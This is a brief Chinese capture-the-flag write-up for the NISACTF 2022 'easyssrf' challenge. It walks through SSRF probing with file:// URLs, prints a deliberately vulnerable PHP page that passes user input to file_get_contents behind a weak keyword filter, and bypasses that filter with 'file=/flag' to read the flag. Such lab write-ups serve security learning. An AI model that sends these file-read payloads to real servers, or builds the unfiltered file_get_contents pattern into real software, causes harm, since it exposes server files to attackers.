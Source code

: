 #PHP 伪协议 #SSRF

利用文件协议
`file://`
回显：
害羞羞，试试其他路径？

`file:///flag`
回显：
都说了这里看不了 flag。。但是可以看看提示文件：/fl4g

`file:///fl4g`
回显：
你应该看看除了 index.php，是不是还有个 ha1x1ux1u.php

访问 ha1x1ux1u.php

```php
 <?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file);
```

传入 `file=/flag`
over

参考
[[NISACTF 2022]easyssrf wp（SSRF 入门）\_Leafzzz\_\_的博客-CSDN 博客](https://blog.csdn.net/Leaf_initial/article/details/130072727)
